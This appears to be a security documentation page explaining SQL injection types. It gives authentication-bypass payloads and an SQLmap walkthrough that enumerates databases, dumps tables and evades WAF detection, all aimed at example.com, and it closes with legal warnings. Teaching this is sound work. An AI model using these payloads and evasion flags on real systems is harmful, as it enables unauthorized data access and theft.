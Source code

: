 ```yaml
---
title: SQL Injection
sidebar_position: 7
---
```


## Introduction to SQL Injection

SQL Injection (SQLi) is a common web application vulnerability that allows attackers to interfere with the queries an application makes to its database. By injecting malicious SQL statements into a form field or URL parameter, attackers can gain unauthorized access to data, manipulate database entries, or even execute commands on the server.

:::danger
SQL Injection attacks are **illegal** without permission. You should only test systems you have authorization to assess. Unauthorized testing can lead to severe legal consequences.
:::

## Types of SQL Injection

1. **In-band SQLi**:

   - The attacker is able to use the same communication channel to both inject the malicious SQL commands and retrieve results. The most common types are:
     - **Error-based SQLi**: Relies on error messages returned by the database.
     - **Union-based SQLi**: Leverages the `UNION` SQL operator to combine multiple select queries.

2. **Inferential SQLi (Blind SQLi)**:

   - The attacker does not receive direct feedback from the database but infers the database's response by analyzing the behavior of the application. This can be:
     - **Boolean-based SQLi**: Exploits the fact that the SQL query's result will alter the behavior of the application depending on the query's truth value.
     - **Time-based SQLi**: Manipulates the database to delay its responses, allowing the attacker to infer data based on the response time.

3. **Out-of-band SQLi**:
   - The attacker relies on external server responses (such as DNS or HTTP requests) to exfiltrate data.

## Example of SQL Injection

Let's assume we have a vulnerable login form where the backend SQL query looks like this:

```sql
SELECT * FROM users WHERE username = 'input_username' AND password = 'input_password';
```

An attacker could submit the following input:

- `input_username`: `' OR 1=1 --`
- `input_password`: `anything`

This modifies the SQL query to:

```sql
SELECT * FROM users WHERE username = '' OR 1=1 --' AND password = 'anything';
```

In this case, `1=1` is always true, allowing the attacker to bypass authentication.

## SQL Injection Tutorial

This tutorial will guide you through identifying and exploiting SQL injection vulnerabilities using **SQLmap**, a popular open-source tool.

### Step 1: Identifying a Vulnerable Parameter

Use a basic SQL injection payload to test if a web application's parameter is vulnerable. For example, on a URL like this:

```
http://example.com/page.php?id=1
```

Try modifying the `id` parameter to:

```
http://example.com/page.php?id=1' OR '1'='1
```

### Step 2: Installing SQLmap

:::info
Pre-installed with Kali Linux.
:::

SQLmap can be installed via **Git**:

```
git clone https://github.com/sqlmapproject/sqlmap.git
cd sqlmap
```

:::info
On Kali Linux, you don't need to type `python sqlmap.py` in the command line. The command has been aliased to `sqlmap`
:::

```bash
python sqlmap.py -u "http://example.com/page.php?id=1" --dbs
```

- `-u` specifies the URL to test.
- `--dbs` enumerates the databases.

### Step 4: Extracting Data

Once SQLmap confirms that the parameter is vulnerable, you can extract specific data from the database. For example, to extract data from a specific table:

```
python sqlmap.py -u "http://example.com/page.php?id=1" -D database_name -T table_name --dump
```

- `-D` specifies the database name.
- `-T` specifies the table name.
- `--dump` extracts all the data from the specified table.

### Step 5: Avoiding Detection

To avoid detection by web application firewalls (WAFs), SQLmap allows you to use various evasion techniques, such as encoding payloads or delaying requests:

```
python sqlmap.py -u "http://example.com/page.php?id=1" --random-agent --delay=2 --hex
```

- `--random-agent`: Randomizes the user agent in each request.
- `--delay`: Adds a delay between each request to avoid triggering rate limits.
- `--hex`: Encodes the payload in hexadecimal to evade detection.

## Conclusion

SQL Injection is a powerful attack vector, and tools like SQLmap make it easier to exploit vulnerable systems. However, it’s crucial to remember that ethical guidelines must always be followed. Testing without permission is illegal and unethical. Always ensure that you are operating within the boundaries of the law and with explicit consent.

## External Resources

- [OWASP SQL Injection Guide](https://owasp.org/www-community/attacks/SQL_Injection)
- [SQLmap Documentation](https://sqlmap.org/)
